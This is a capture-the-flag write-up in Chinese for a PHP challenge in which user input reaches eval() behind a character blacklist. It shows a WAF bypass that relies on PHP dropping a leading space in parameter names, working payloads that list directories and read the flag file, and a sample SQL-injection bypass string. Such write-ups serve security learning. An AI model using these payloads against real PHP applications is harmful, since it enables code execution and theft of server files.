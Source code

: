 一个计算器 查看源代码 找到calc.php

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

PHP的字符串解析特性

我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => “bar”)。

值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

> 1.删除空白符
>
> 2.将某些字符转换为下划线（包括空格）

在了解到PHP的字符串解析之后，我们思考一个问题，WAF它不让num参数传入字母，所以我们不能让WAF文件检测到字母，但是我们又需要传入字母来构成我们的命令，这种情况下我们该怎么对其进行绕过呢？

___

绕过方法

因为num不可以传入字母，但是我们在num参数之前添加一个空格，这样在**PHP的语言特性下会默认删除这个空格，但是WAF会因为这个空格导致检测不到num这个参数，最终导致WAF被绕过**。

```
?%20num=var_dump(scandir(chr(47)))
```

![image-20250916153515983](assets/image-20250916153515983.png)

知道了flag在/flag中

```
?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

string(43) "flag{2eb7dc07-8722-4846-96dd-1d0ddc4ce8cd} "

这些是ascii码 47对应/

